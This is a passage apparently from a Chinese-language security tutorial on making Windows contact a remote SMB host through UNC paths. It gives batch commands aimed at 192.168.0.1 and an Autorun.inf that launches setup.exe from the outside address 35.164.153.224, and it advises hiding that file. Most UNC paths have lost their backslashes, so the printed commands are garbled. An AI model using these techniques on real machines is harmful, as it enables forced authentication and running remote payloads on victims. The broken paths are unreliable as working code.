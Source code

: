 下图是实验结果：

[![](https://p2.ssl.qhimg.com/t01d7bcb1a7547ec9cf.png)](https://p2.ssl.qhimg.com/t01d7bcb1a7547ec9cf.png)

<br>

**批处理文件**

利用批处理文件时，你有很多方法可以去实现目的：



```
echo 1 &gt; //192.168.0.1/abc
pushd \192.168.0.1abc
cmd /k \192.168.0.1abc
cmd /c \192.168.0.1abc
start \192.168.0.1abc
mkdir \192.168.0.1abc
type\192.168.0.1abc
dir\192.168.0.1abc
find, findstr, [x]copy, move, replace, del, rename and many more!
```

下图是实验结果：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t016e33985339f5b859.png)

<br>

**Windows自动完成(Auto-Complete)**

你只需要在合适的位置输入“\host”，就可以自动完成，输入位置如下：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t010d6ebe0a23481516.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p4.ssl.qhimg.com/t01509d46ccb8b2a379.png)

<br>

**Autorun.inf**

需要说明的是，这种方法只适用于Windows 7以下系统，因为在Windows 7以上系统中，这个功能被取消了。不过，你可以通过修改自动运行的组策略，重新启用这个功能。在实际运用时，最好确保Autorun.inf文件是隐藏的，方法如下：



```
[autorun]
open=\35.164.153.224setup.exe
icon=something.ico
action=open Setup.exe
```
